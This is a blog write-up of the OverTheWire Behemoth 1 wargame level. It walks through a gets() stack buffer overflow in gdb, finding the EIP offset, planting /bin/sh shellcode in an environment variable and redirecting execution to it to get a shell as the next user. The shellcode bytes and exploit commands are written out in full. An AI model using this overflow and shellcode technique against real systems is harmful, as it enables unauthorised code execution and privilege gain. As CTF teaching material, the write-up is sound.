 ```yaml
---
layout:     post
title:      "Overthewire.org - Behemoth 1 -> 2"
subtitle:   "Write-Up"
date:       2017-04-02 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```

<h1>Introduction</h1>

<p>Today we're going to attack another reverse engineering challenge from <b>Behemoth</b> series, to improve our Wknowledge in reverse engineering.  </p>

<h1>Challenge</h1>

<p>This one seems to behave quite similar as the <b>behemoth0</b> level, but unluckily we can't view the password like in the previous one. Let's dissasemble the binary. </p>

{% highlight asm %}
(gdb) disas main
Dump of assembler code for function main:
   0x0804845d <+0>:	push   %ebp
   0x0804845e <+1>:	mov    %esp,%ebp
   0x08048460 <+3>:	and    $0xfffffff0,%esp
   0x08048463 <+6>:	sub    $0x60,%esp
   0x08048466 <+9>:	movl   $0x8048530,(%esp)
   0x0804846d <+16>:	call   0x8048310 <printf@plt>
   0x08048472 <+21>:	lea    0x1d(%esp),%eax
   0x08048476 <+25>:	mov    %eax,(%esp)
   0x08048479 <+28>:	call   0x8048320 <gets@plt>
   0x0804847e <+33>:	movl   $0x804853c,(%esp)
   0x08048485 <+40>:	call   0x8048330 <puts@plt>
   0x0804848a <+45>:	mov    $0x0,%eax
   0x0804848f <+50>:	leave  
   0x08048490 <+51>:	ret    
End of assembler dump.
{% endhighlight %}

<p>Hmm, we have <b>printf</b>, <b>gets</b> and <b>puts</b> function. We will have to somehow exploit the <b>gets</b> function, by overflowing an buffer and then possibly we will be able to spawn a shell. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ python -c 'print "A"*200' | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
{% endhighlight %}

<p>Great, now we have something to focus on. This time, I wanted to find an offset not by brute forcing (also known as guessing), but by running <b>pattern_offset.rb</b> on the value in <b>EIP</b> - which resulted in number <b>79</b>. But how can we store the shellcode, since nothing is actually stored in the binary?  </p>

<p>In one of the <b>Narnia</b> levels, we used enviromental variable as the way to store the shellcode. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ export EGG=$(python -c 'print "\x90"*100+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
{% endhighlight %}

<p>Now we can use a tool like <a href="https://github.com/Partyschaum/haxe/blob/master/getenvaddr.c"><b>getenvaddr</b></a> to get the address of the enviromental variable <b>EGG</b>. </p>

{% highlight bash %}
behemoth1@melinda:/tmp$ mkdir muuuuu
behemoth1@melinda:/tmp$ cd muuuuu
behemoth1@melinda:/tmp/muuuuu$
behemoth1@melinda:/tmp/muuuuu$ touch getenvaddr.c
behemoth1@melinda:/tmp/muuuuu$ nano getenvaddr.c
behemoth1@melinda:/tmp/muuuuu$ gcc getenvaddr.c -o getenvaddr
behemoth1@melinda:/tmp/muuuuu$ ./getenvaddr EGG /behemoth/behemoth1
EGG will be at 0x7fffffffe8ac
behemoth1@melinda:/tmp/muuuuu$
{% endhighlight %}

<p>Unluckily it didn't seem to work, so I had to come up with another solution, using <b>gdb</b>. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ gdb behemoth1
(gdb) break *0x08048479
Breakpoint 1 at 0x8048479
(gdb) run
Starting program: /games/behemoth/behemoth1

Breakpoint 1, 0x08048479 in main ()
(gdb) x/s *((char **)environ)
0xffffd828:	"XDG_SESSION_ID=478012"
(gdb) x/s *((char **)environ+1)
0xffffd83e:	"SHELL=/bin/bash"
(gdb) x/s *((char **)environ+2)
0xffffd84e:	"TERM=xterm-256color"
(gdb) x/s *((char **)environ+3)
0xffffd862:	"SSH_CLIENT=89.64.16.127 33128 22"
(gdb) x/s *((char **)environ+4)
0xffffd883:	"SSH_TTY=/dev/pts/12"
(gdb) x/s *((char **)environ+5)
0xffffd897:	"LC_ALL=C"
(gdb) x/s *((char **)environ+6)
0xffffd8a0:	"EGG=", '\220' <repeats 100 times>, "\061\333\215C\027\231\315\200\061\311Qhn/shh//bi\215A\v\211\343\315\200"
{% endhighlight %}

<p>Great, now we have to only point the address to our shellcode. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$  python -c 'print "A"*79+"\xb0\xd8\xff\xff"' | ./behemoth1
Password: Authentication failure.
Sorry.
behemoth1@melinda:/behemoth$ (python -c 'print "A"*79+"\xb0\xd8\xff\xff"';cat) | ./behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
*******
{% endhighlight %}

<p>As you may know, first try didn't work becaouse the shellcode opened the shell without any argumants, resulting in immediate close. Adding <b>cat - </b> allowed us to keep the shell open, and view the password. </p>

<h1>Conclusion</h1>
<p>Fun as always, and very educational. Thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>!</p>
<p>I would also like to point out that if you're thinking about starting journey with CTF challenges <a href="https://picoctf.com/"><b>PicoCTF</b></a> is now running, with a lot of great challenges. Check that out if you're interested!</p>

<p>~ Stay safe! </p>
